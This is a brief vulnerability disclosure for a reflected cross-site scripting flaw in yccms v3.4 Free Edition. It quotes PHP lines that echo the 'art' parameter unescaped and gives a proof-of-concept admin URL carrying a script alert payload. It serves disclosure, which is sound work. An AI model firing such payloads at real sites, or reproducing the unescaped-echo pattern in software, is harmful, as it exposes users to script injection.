 # General
Vulnerability Name: yccms v3.4-Free Edition allows reflected XSS via the `/compile/%%D8^D83^D83C04B9%%createhtml.tpl.php` art parameter  

Exploit Author: goldsnakeman  

Vendor Homepage: http://www.yccms.net  

Software Link: http://www.yccms.net/YCCMS_free.rar   

Version: v3.4 Free Edition  

# Vulnerability Overview
Affected code is located at `/compile/%%D8^D83^D83C04B9%%createhtml.tpl.php`，Lines 22 and 23：  

`<?php if ($_GET['art']): ?>`  
`<dd><span class="state">内容生成完毕 !共 <?php echo $_GET['art']; ?>`  

The code in question accepts the `art` parameter without escaping the special characters

# POC
After the administrator logged in, write the POC as:  

`http://172.16.141.134/yccms-v3.4-free/admin/?a=html&m=arts&art=%3Cscript%3Ealert(/xss/);%3C/script%3E`  

![](https://github.com/hellogoldsnakeman/vulnerable/blob/master/yccms/2.jpg)  

![](https://github.com/hellogoldsnakeman/vulnerable/blob/master/yccms/3.jpg)  
